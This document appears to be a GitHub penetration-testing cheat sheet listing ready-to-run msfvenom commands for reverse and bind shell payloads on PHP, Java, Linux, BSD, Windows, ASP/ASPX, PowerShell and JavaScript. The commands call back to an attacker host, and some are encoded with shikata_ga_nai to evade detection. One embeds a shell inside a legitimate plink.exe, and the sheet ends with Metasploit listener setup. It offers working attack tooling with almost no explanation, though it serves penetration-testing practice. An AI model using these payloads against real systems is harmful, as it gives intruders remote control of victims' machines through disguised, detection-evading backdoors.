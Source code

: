 # MSFVenom Payloads 

<h1 align="center">
  <a href="https://github.com/kraloveckey/venom/penetration-testing"><img src="../images/img/hack-logo.png" width=150 height=140 lt="Cyber Cheat Sheet"></a>
</h1>

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/kraloveckey)

[![Telegram Channel](https://img.shields.io/badge/Telegram%20Channel-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)](https://t.me/cyber_notes)

---

```shell
$ msfconsole -q
```

### PHP reverse shell  
```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php```

### Java WAR reverse shell  
```msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war```

### Linux bind shell  
```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai```

### Linux reverse shell
```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o pay```

``` msfconsole -q
>> use payload/linux/x86/shell_reverse_tcp
>> set LHOST 10.10.10.10
>> exploit
```

### Linux FreeBSD reverse shell  
```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf```

### Linux C reverse shell  
```msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c```

### Windows non staged reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe```

### Windows Staged (Meterpreter) reverse shell  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe```

### Windows Python reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py```

### Windows ASP reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp```

### Windows ASPX reverse shell
```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx```

### Windows JavaScript reverse shell with nops  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18```

### Windows Powershell reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```

### Windows reverse shell excluding bad characters  
```msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai```

### Windows x64 bit reverse shell  
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe```

or

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4443 -f exe -o shell.exe```

``` 
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 4443
run
```

### Windows reverse shell embedded into plink  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```